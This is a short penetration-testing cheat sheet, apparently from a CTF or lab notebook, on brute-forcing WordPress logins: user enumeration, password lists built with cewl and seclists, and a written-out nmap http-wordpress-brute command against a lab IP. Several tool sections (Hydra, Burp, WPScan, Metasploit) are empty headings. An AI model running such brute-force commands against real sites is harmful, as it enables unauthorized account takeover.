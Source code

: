 # Wordpress Brute Forcing

## Step 1 : Enumerate users

* Default username "admin".
* If not then use an intelligent userlist using "cewl" or common usernames using seclists. To enumerate valid usernames.
* Verify the enumerate usernames

![&quot;elliot&quot; is a valid username](../.gitbook/assets/image%20%2827%29.png)

![&quot;admin&quot; is not a valid username](../.gitbook/assets/image%20%2869%29.png)

## Step 2 : Password list

* First try to find a webpage to get a more probable list of password using "cewl".
* If not found then use common password lists from "seclists".

## Step 3 : Perform the online password cracking

### Nmap : Wordpress login brute force

* The nmap automatically discovers the exact login page using `nmap -p80 --script http-enum 192.168.1.17`

`nmap –sV --script http-wordpress-brute --script-args 'userdb=/root/Desktop/login.txt,passdb=/root/Desktop/pass.txt, http-wordpress-brute.hostname=domain.com,http-wordpress-brute.thread=3,brute.firstonly=true' 192.168.1.17`

![](../.gitbook/assets/image%20%2848%29.png)

### Hydra : Wordpress login brute force

![](../.gitbook/assets/image%20%2879%29.png)

### Brup Suite : Wordpress login Brute force

### WPScan : Wordpress login Brute force

### Metasploit : Wordpress loign Brute force







